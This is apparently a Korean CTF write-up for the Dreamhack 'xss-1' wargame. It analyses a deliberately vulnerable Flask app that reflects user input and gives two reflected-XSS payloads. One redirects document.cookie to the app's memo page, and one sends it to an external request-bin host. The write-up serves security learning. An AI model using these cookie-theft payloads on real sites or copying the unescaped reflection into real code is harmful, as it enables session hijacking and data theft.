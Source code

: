 # [Dreamhack Wargame] xss-1
### [🚩xss-1](https://dreamhack.io/wargame/challenges/28/)
  <img width="1068" alt="xss-1_description" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/674dfc3a-875e-4f3a-aeb2-f8e19fe781ce">

<br/><br/>

## 문제 파일(app.py) 분석
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}" # param의 값을 가져와 /vuln 엔드포인트에 접속하는 URL를 생성함
    return read_url(url, cookie) # 생성된 url과 쿠키를 인자로 주어 read_url 함수를 호출함



# 인덱스 페이지
@app.route("/")
def index():
    return render_template("index.html") # 인덱스 페이지(index.html)를 화면에 출력함



# vuln 페이지 (이용자가 전달한 값을 화면에 그대로 출력함)
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "") # 이용자가 전달한 vuln 인자를 가져옴
    return param # 이용자의 입력값을 화면에 출력함



# flag 페이지: 전달된 URL에 임의 이용자가 접속하게끔 함
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET": # GET 메소드로 요청 시
        return render_template("flag.html") # 이용자에게 URL을 입력받는 페이지(flag.html)를 화면에 출력함
    elif request.method == "POST": # POST 메소드로 요청 시
        param = request.form.get("param") # 이용자가 전달한 param 인자를 가져옴
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}): # param 파라미터에 "flag"과 FLAG를 포함해 check_xss 함수를 호출함
            return '<script>alert("wrong??");history.go(-1);</script>' # check_xss 결과 false가 반환될 경우 "wrong??" 알림창을 출력

        return '<script>alert("good");history.go(-1);</script>' # check_xss 결과 true가 반환될 경우 "good" 알림창을 출력



memo_text = ""

# memo 페에지: 이용자가 메모를 남길 수 있으며, 작성한 메모를 출력함
@app.route("/memo")
def memo():
    global memo_text # memo_text 변수를 전역변수로 참조함
    text = request.args.get("memo", "") # 이용자가 /memo?= 뒤에 입력한 memo 값을 가져옴
    memo_text += text + "\n" # 이용자가 전송한 memo 입력값을 memo_text에 추가함
    return render_template("memo.html", memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력함



app.run(host="0.0.0.0", port=8000)
```

<br/><br/>

## 문제 풀이
### 취약점이 존재하는 코드
* 이용자의 입력값을 페이지로 출력하는 vuln 페이지와 memo 페이지의 차이점
	- memo 페이지는 ```render_template``` 함수를 사용해 memo_html를 출력
		+ ```render_template``` 함수: 전달된 탬플릿 변수를 기록할 때 HTML 엔티티 코드로 변환해 저장함 → XSS가 발생하지 않음
	- vuln 페이지는 이용자가 입력한 값을 별다른 처리 없이 ```return```문을 통해 그대로 출력함 → XSS가 발생함
		+ vuln 페이지의 ```param``` 값으로 임의 이용자의 쿠키를 탈취할 수 있는 코드를 입력하여 공격을 수행함 (**Reflected XSS 공격**에 해당)

<br/><br/>

### 익스플로잇
* 공격에 사용할 수 있는 속성
	| 속성 | 설명 |
  |-------|-----------------|
	| location.href | 전체 URL를 반환하거나, URL을 업데이트할 수 있는 속성 |
	| document.cookie | 해당 페이지에서 사용하는 쿠키를 읽고, 쓰는 속성 |

<br/>

#### 방법 1: memo 페이지 이용
1. flag 엔드포인트에서 ```<script>location.href=“/memo?memo=“ + document.cookie;</script>```를 입력하고 [제출] 버튼을 클릭함
2. “good” 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음

<br/>

#### 방법 2: 외부 웹 서버 이용
1. 외부에서 접근 가능한 웹 서버를 준비함
	- Dreamhack 페이지에서 제공하는 [드림핵툴즈 서비스](https://tools.dreamhack.games/)의 Request Bin 기능을 이용함
		+ Request Bin 항목에서 랜덤한 URL이 생성되는 것을 확인하고 이를 복사해둠
2. flag 엔드포인트에서 ```<script>location.href=“http://RANDOMHOST.request.dreamhack.games/?memo="+document.cookie;</script>```를 입력하고 [제출] 버튼을 클릭함
3. “good” 알림창이 출력되면 웹 서버의 접속 기록을 확인하여 QueryString 부분에서 임의 이용자의 쿠키 정보(FLAG)를 획득할 수 있음 
